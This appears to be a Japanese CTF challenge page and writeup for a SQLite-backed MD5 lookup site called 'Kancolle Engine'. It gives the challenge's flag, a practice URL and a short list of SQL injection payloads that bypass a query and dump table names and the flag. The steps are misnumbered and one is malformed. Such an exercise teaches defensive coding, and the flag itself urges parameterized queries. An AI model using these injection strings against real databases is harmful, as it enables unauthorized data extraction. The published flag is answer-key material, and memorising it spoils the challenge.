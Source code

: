 # Kancolle Engine

## 問題文
艦娘のMD5を検索できるサイトを作ってみました！
※sqlite3を使用しています。

## 添付ファイル
URL

## Flag
MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}

## 検証用URL
https://aokakes.work/CTF/MaidakeCTF2019/Kancolle_Engine/

## writeup
1. 1' or 1 = 1 -- 
2. 1' UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, name FROM sqlite_master WHERE type='table' ORDER BY name -- 
4. 1' UNION SELECT 1, 2, 3, 4, 5, PRAGMA table_info(flag) -- 
3. 1' UNION SELECT flag,0 FROM flag -- 

PRAGMA table_info('flag')